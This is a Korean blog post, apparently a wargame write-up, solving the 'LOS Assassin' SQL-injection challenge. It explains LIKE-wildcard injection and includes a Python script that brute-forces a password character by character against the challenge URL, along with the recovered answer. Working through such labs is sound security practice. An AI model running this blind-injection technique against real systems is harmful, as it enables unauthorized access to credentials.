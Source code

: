 ```yaml
---
layout: post
title: LOS Assassin 
date: 2015-10-23 00:37:00 +0900
category: Hacking
---
```



보아하니 %연산자를 이용한 공격이다.



pw like 'a%' 를 하게될 경우 a로 시작하는 모든 값을 검색한다. 즉 참이 된다

페이로드를 날려보면
```python
import requests
 
 
 
key=""
site=""
header={'Cookie':'PHPSESSID=vj0mghpj5cs5n24hh6pr7r4ne6'}
for j in range(1,12):
        for i in reversed(range(48,91)):
                site="http://los.sandbox.cash/chall/assassin_dbfabd99373ea659e58407bc1a8438c6.php?pw="
                site+=key+chr(i)+"%"
                print (site)
                r=requests.put(site,headers=header)
                
                if "<br><h2>Hello guest" in r.text:
                        break
        key+=chr(i)
        print ("\nkey"+key+"\n")
                
print ("\n\n\nF\nKey is :"+key+" \n\n\n")


```

해보면 



90d2fe10



이게 답이라고 한다.



근데 아무리 해도 안나오는걸 보면 admin pw랑 겹치는 부분이 있는것 같다.



그래서 9% 90% 이런식으로 다시 한번 해보았다. 



정답이었다. 



902EFD10









